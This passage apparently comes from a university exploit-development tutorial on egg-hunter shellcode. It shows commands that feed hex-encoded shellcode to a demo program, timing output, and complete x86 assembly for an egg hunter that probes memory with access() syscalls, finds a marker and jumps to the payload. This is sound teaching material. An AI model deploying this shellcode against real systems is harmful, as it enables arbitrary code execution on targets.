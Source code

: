 And if we run this dummy code like so:

``` {.example}
user@si485H-base:demo$ ./dummy_hunt $(printf $(./hexify.sh huntable_shell))
```

The huntable~shell~ is a command line argument, which means it is loaded
into the memory of the program. The egg hunter will find the shell code,
eventually, and drop us into the shell. How long does it take?

``` {.example}
user@si485H-base:demo$ time ./dummy_hunt $(printf $(./hexify.sh huntable_shell)) < /dev/null

real    0m9.038s
user    0m0.628s
sys 0m6.568s
```

That long. Which is pretty fast, but not soo fast.

### Putting it all together

Ok, now that we have a sense of how to hunt an egg, let's translate that
logic into assembly and write an egg hunt shell code:

``` {.asm}
SECTION .text
    global _start

_start:
    mov ebx, 0x90509050 ;store value of egg
    xor ecx,ecx     ;clear registers ecx
    mul ecx         ;clear register edx,eax

j1: or dx,0xfff     ;move in page boundaries by 4096 byte boundaries

j2: inc edx,        ; move by 1

    pusha           ;save registers on stack
    lea ebx,[edx+0x4]   ;load address 4 bytes for ebx
    mov al,0x21     ;set up access()
    int 0x80        ;system call

    cmp al,0xf2     ;compare to -14 EFAULT
    popa            ;restore register state from stack

    jz j1           ;if EFAULT, move in page boundary

    cmp [edx],ebx       ;check for first egg
    jnz j2          ;jump if not there

    cmp [edx+0x4],ebx   ;check for second egg
    jnz j2          ;jump if not there

    jmp edx         ;found egg, jump to egg
```
